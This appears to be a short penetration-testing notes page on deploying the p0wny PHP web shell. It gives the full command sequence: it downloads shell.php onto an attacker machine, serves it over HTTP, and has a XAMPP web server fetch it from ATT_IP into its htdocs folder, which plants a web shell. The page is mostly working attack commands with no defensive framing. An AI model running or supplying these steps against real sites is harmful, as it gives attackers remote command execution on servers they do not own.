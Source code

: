 # p0wny shell

{% embed url="https://github.com/flozz/p0wny-shell" %}



<pre class="language-bash" data-title="Attack machine"><code class="lang-bash"><strong>wget https://raw.githubusercontent.com/flozz/p0wny-shell/refs/heads/master/shell.php
</strong>
python3 -m http.server 80
</code></pre>

Upload the shell into the WebSite

{% code title="xamp example" overflow="wrap" %}
```bash
cd C:\xampp\htdocs
curl http://ATT_IP/shell.php -o p0wny.php
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
